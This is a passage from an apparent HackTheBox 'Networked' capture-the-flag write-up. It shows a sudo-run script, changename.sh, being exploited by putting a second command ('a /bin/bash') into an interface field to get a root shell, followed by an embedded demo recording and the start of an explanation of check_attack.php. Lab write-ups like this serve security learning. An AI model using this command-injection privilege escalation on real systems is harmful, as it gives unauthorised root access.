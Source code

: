 		```
		[guly@networked tmp]$ sudo /usr/local/sbin/changename.sh
		interface NAME:
		a
		interface PROXY_METHOD:
		a
		interface BROWSER_ONLY:
		a
		interface BOOTPROTO:
		a /bin/bash
		[root@networked network-scripts]# 
		```

5. Demo - `changename.sh` Privilege Escalation
	<html>
	<head>
	<link rel="stylesheet" type="text/css" href="/asciinema-player.css" />
	</head>
	<body>
	<div id="change_name_priv_esc"></div>
	<script src="/asciinema-player.min.js"></script>
	<script>
		AsciinemaPlayer.create('https://raw.githubusercontent.com/yufongg/yufongg.github.io/main/_posts/Writeups/HackTheBox/Linux/Networked/images/change_name_priv_esc.cast', document.getElementById('change_name_priv_esc'), { 
		loop: true,
		autoPlay: true
			});
	</script>
	</body>
	</html>

# Additional

## Guly -  What is check_attack.php doing? (In-Depth)

1. Assign some variables

	```
	# Line 2-7
	require '/var/www/html/lib.php';
	$path = '/var/www/html/uploads/';
	$logpath = '/tmp/attack.log';
	$to = 'guly';
	$msg= '';
	$headers = "X-Mailer: check_attack.php\r\n";
	```

2. Create an empty array called `files`
